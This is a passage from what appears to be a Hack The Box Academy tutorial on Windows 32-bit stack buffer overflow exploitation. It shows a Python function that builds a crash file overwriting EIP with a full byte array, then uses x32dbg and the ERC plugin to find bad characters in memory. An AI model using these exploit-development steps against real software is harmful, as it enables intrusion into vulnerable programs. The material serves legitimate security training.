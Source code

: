 The next step would be to generate a `.wav` file with the characters string generated by `ERC`. We will once again write a new function `bad_chars()`, and use a similar code to the `eip_control()` function, but will use the characters under `C#` in `ByteArray_1.txt`. We will create a new list of bytes `all_chars = bytes([])`, and paste the characters between the brackets. We will then write to `chars.wav` the same `payload` from `eip_control()`, and add after it `all_chars`. The final function would look as follows:


```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```


Note how we added a `b` before `A` and `B` to turn them into bytes

We can now run our exploit with `F5` to generate the `chars.wav` file.

---

## Comparing our Input

Now we can restart our program in `x32dbg` and load `chars.wav` to it. Once we do, we can start comparing our input in memory and seeing whether any characters are missing. To do so, we can check the Stack pane on the bottom right of `x32dbg`, which should be aligned exactly at the beginning of our input: ![Byte Stack](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_stack.jpg)

We can now manually go through the stack line by line from right to left and ensure that all hex values are present, from `0x00` to `0xff`. As this may take a while, and we would entirely rely on our eyes, we may miss a character or two. So, we will once again utilize `ERC` to make the comparison for us. It will easily compare our input in memory to all characters.

We must first copy the address of `ESP` since this is where our input is located. We can do this by right-clicking on it and selecting `Copy value`, or clicking `[Ctrl + C]`: ![Byte ESP](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_esp.jpg)

Once we have the value of `ESP`, we can use `ERC --compare` and give it the `ESP` address and the location of the `.bin` file that contains all characters, as follows:

```cmd-session
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```
